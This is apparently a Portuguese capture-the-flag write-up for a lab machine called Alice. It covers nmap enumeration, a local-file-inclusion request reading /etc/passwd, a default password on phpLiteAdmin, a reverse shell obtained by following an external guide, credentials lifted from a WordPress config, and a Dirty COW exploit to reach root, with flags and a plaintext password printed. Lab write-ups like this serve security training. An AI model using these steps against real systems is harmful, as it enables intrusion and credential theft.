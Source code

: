 CyberCup - Alice

# CyberCup - Alice

## Enumeração

- Executado Nmap

```
# Nmap 7.80 scan initiated Sun Jun 28 00:32:09 2020 as: nmap -sC -sV -Pn -oA quick 10.2.0.131
Nmap scan report for 10.2.0.131
Host is up (0.0022s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Alice's Shop
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          45939/tcp   status
|   100024  1          51196/tcp6  status
|   100024  1          51294/udp   status
|_  100024  1          53359/udp6  status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 28 00:32:23 2020 -- 1 IP address (1 host up) scanned in 13.82 seconds

```

  ### 80/TCP

- Ao acessar a porta 80/TCP identificado que existe um website apache em execução. DUrante navegação notado que as urls poderiam ser vulneraveis à LFI, o que foi comprovado na requisição abaixo

```
GET /view.php?page=../../etc/passwd HTTP/1.1
Host: 10.2.0.131
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

```

- Ao tentar importar logs do apache como /var/log/apache2/access.log, dentre outros e obtido insucesso, verificado que nao seria possivel utilizar do LFI para obter RCE diretamente via log poisioning. 

- Ao dar continuidade, executado gobuster enumerando outros possíveis diretorios no servidor, o que encontrou a pasta dbadmin que executava a aplicação phpLiteAdmin v1.9.3, que permitiu acesso com a senha padrão **admin**, encontrada por dedução

```
----------------------------------------------------------------------------------- ---------------------------------
  Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
phpLiteAdmin - 'table' SQL Injection                                               | php/webapps/38228.txt
phpLiteAdmin 1.1 - Multiple Vulnerabilities                                        | php/webapps/37515.txt
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                     | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities                                      | php/webapps/39714.txt
----------------------------------------------------------------------------------- --------------------------------

```

- No phpLiteAdmin, executado procedimentos descritos em https://v3ded.github.io/ctf/zico2.html onde através de um valor padrão era obtido um shell reverso a partir de um payload publicado via http server local

- Através do shell reverso, obtido flag user.txt como o usuário **alice** na pasta /home/zico

```
www-data@shop:/home/zico$ cat user.txt 
j39d8ajeoc0paz63lmndr0wusa823nu7
www-data@shop:/home/zico$ 

```

- Executado comando para enumerar arquivos com permissão de leitura no diretorio /home. Notado que haviam arquivos de configuração do wordpress e joomla.


```

www-data@shop:/tmp$ find /home -type f -readable 2>/dev/null                                                         
/home/zico/bootstrap.zip                                                                                             
/home/zico/startbootstrap-business-casual-gh-pages/img/slide-1.jpg                                                   
/home/zico/startbootstrap-business-casual-gh-pages/img/slide-2.jpg                                                   
/home/zico/startbootstrap-business-casual-gh-pages/img/bg.jpg                                                        
/home/zico/startbootstrap-business-casual-gh-pages/img/intro-pic.jpg 
```

- Encontrado no arquivo de configuração **/home/zico/wordpress/wp-config.php** as credenciais de banco de dados do usuário **alice**, que eram tambem utilizadas para login com a conta no linux

```
alice:fiap3raaz
```

- Ao enumerar, notado que maquina é vulnervel ao dirtycow. Executado exploit **40839** do exploitdb e logado como firefart, obtendo flag root.txt


```
firefart@shop:~# cat /root/root.txt                                                                                  │zurc@kali:/dcruz/fiap/cybercup/alice/exploit$ 
983jlie39ksc0aslemn3378ad0u                                                                                        
firefart@shop:~#           
```

